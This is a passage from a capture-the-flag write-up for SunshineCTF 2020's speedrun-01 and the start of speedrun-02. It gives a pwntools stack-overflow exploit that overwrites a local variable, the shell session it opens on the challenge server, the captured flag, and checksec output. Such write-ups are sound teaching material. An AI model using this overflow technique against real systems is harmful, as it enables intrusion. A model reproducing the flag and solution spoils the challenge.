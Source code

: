This is identical to [speedrun-00](#speedrun-00) with a different offset.


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_01')

if not args.REMOTE:
	p = process(binary.path)
else:
	p = remote('chal.2020.sunshinectf.org', 30001)

p.sendlineafter('Long time ago, you called upon the tombstones\n','foobar')

payload  = b''
payload += (0x68 - 0xc) * b'A'
payload += p32(0xfacade)

p.sendline(payload)
p.interactive()
```

Output:

```bash
# ./exploit_01.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-01/chall_01'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30001: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_01) gid=1000(chall_01) groups=1000(chall_01)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8456 Nov  7 07:49 chall_01
-rw-r----- 1 root chall_01   35 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{eternal-rest-6a5ee49d943a053a}
```


## speedrun-02

### Checksec
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
